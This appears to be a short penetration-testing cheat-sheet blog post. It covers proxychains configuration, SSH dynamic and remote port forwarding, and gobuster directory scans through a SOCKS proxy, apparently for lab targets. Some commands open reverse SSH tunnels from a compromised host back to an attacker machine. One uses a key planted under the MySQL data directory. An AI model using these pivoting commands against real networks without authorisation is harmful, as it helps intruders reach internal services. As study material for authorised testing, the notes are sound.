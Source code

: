 ```yaml
---
layout: post
title:  "networking - linux - proxychains - port forwarding"
date:   2022-01-01
categories: networking
---
```


### directory scan

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://<my ip>:9050 -x .php,.txt
```

### Configure Proxychains

```bash

┌──(kali㉿Zeus)-[~]
└─$ cat /etc/proxychains.conf | grep 9050
socks5 <your VPN IP> 9050

```

### Proxychains through SSH connection dynamic port forwarding


```bash

ssh -D <your VPN IP>:9050 -i id_rsa root@10.10.10.10

```

## remote port forwarding two specific ports 22 and 3306 

```bash
ssh-keygen
ssh -f -N -R 1122:<targetip>:22 -R 13306:<targetip>:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@myip -i /tmp/.ssh/id_rsa
```

## dynamic remote port forwading

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@myip
```

### Directory Scan through proxy


```bash

gobuster dir --proxy socks5://<your VPN IP>:9050 --url http://<ip> -w /usr/share/wordlists/dirb/common.txt

```


### Resources

```

https://abrictosecurity.com/how-to-use-proxychains/

```


